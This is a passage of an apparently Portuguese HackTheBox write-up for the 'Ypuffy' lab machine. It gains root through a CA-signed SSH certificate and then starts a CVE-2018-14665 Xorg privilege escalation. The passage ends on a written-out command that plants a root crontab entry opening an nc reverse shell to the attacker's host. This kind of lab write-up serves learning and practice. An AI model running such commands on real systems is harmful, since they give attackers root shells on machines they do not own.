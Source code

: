 Verificamos que foi criado um arquivo .pub `ypuffy_root-cert.pub`, no caso, é esse arquivo que está assinado pelo CA, vamos passar esse arquivo para nossa Kali agora

`scp -i alice.key alice1978@10.10.10.107:/tmp/ypuffy_root-cert.pub .`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ypuffy/Y_lin17.png)

Agora vamos verificar se a chave realmente está OK

`ssh-keygen -L -f ypuffy_root-cert.pub`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ypuffy/Y_lin18.png)

A princípio está tudo OK...

Agora eu preciso que a minha chave privada e o .pub estejam na mesma pasta, pra eles poderem fazer a autenticação corretamente, no caso estão

`ls ypuffy_root*`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ypuffy/Y_lin19.png)

Agora é conectar e virar root

`ssh -i ypuffy_root root@10.10.10.107`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ypuffy/Y_lin20.png)

## Pegamos as flags de user e root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ypuffy/Y_root.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ypuffy/Y_user.png)

# Algo a mais

Temos outro modo de se escalar privilégio nessa máquina também

Essa máquina foi liberada em setembro de 2018, e um mês depois, uma CVE foi liberada, a CVE-2018-14665, identificando permissões no `Xorg` que habilitam usuários a virar root. A vulnerabilidade é simples, assumindo que o Xorg roda com setuid, eu posso sobrescrever um arquivo de log com o que o usuário dizer para escrever.

Tem vários exploits no GitHub que fazem isso automaticamente, mas vamos fazer primeiro manual, pra entender o que está acontecendo. Novamente, o que será feito aqui ta melhor explicado no blog do `0xdf`

## Manual

Com a vulnerabilidade em mente, temos vários pontos para explorar, vamos fazer primeiro o `crontab`

`Xorg -fp "* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.3 443 > /tmp/f" -logfile crontab :1 &`
